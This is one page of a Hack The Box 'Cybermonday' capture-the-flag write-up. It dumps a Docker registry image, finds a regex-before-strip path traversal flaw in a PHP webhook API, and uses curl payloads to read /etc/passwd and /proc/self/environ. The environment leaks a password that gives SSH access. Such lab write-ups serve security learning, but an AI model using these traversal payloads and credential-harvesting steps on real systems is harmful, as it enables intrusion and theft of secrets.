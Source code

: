 # Cybermonday - Reading the Source

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[**Reading the Source**](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have access to an internal Docker registry, let's use `curl` to see if we can get a list of images the registry contains.
```bash
curl http://<registry ip>:5000/v2/_catalog

{"repositories":["cybermonday_api"]}
```

It looks like this registry holds the image for the webhook API. We can download this image to look through the source and see if we can spot any vulnerabilities to exploit. While we could configure our local Docker version to use the `SOCKS` proxy and download the image that way, since we're not looking to actually run the container it's probably easier to download [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber) and get the image that way.
```bash
proxychains python3 DockerGraber.py http://<registry ip> --dump cybermonday_api

[+] BlobSum found 27
[+] Dumping cybermonday_api
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d6...
```

Once we have all the blobs we can extract them all with:
```bash
for f in *.tar.gz; do tar xf "$f"; done
```

And now we have the filesystem for the `cybermonday_api` container. The source for the webhook API can be found in `/var/www/html`. Looking through this source code, we see there's an undocumented endpoint for `createLogFile` type webhooks that lets us list and read the logs that are created. It also requires a different type of authentication to the token we've been using. Let's run the `list` action on the original webhook we found in the changelog.
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "list"}'

{"status":"success","message":[...]}
```

If you made any requests to create a log earlier, you'll see them listed here. Next we want to test the read function.
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": "test-<timestamp>.log"}'

{"status":"success","message":"test"}
```

Okay so we get the basic idea, you create logs with the webhook then read them here. The read log function checks for path traversal with a `regex` pattern and makes sure the file has `log` in the name. But if you look closer you might spot a problem. Theres a string substitution made _after_ the `regex` check.
```php
preg_match("/\.\.\//", $logName)
str_replace(' ', '', $logName)
```

Which means we can still abuse this endpoint for path traversal. We need to also be sure to include `log` in the name, but for that we can just re-enter the `/logs` directory and back out again. So a request to fetch `/etc/passwd` would look like this:
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./etc/passwd"}'

{"status":"success","message":"root:x:0:0:root:\/root:\/bi..."}
```

Now we have path traversal, but what can we do with it? The code uses `file_get_contents` rather than `include` so we can't inject any code. We could try and see if another `.env` file exists.
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./var/www/html/.env"}'

{"status":"error","message":"This log does not exist"}
```

No luck. But there is one file we can request the might be useful. Linux has a number of virtual directories in `/proc` that let you get the state of different processes. For the [[php|PHP]] server itself we can use `/proc/self`, and in particular `/proc/self/environ`.
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./proc/self/environ"}'

{"status":"success","message":"HOSTNAME=e1862f4e1242\u0000PHP..."}
```

This gives us the environment variables set for the PHP server process. If we look carefully, we see one variable that might be of use.
```bash
DBPASS=<password>
```

It's pretty buried in there and can be easy to miss with the JSON formatting, but we can see a password in the environment that might just be what we're looking for. If we try to `ssh` to the host using the username we found earlier and this password:
```bash
ssh john@<host ip>
john@<host ip>'s password:

john@cybermonday:~$ 
```

Success. Grab the flag in `user.txt` and then let's continue on to root.

Next: [Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)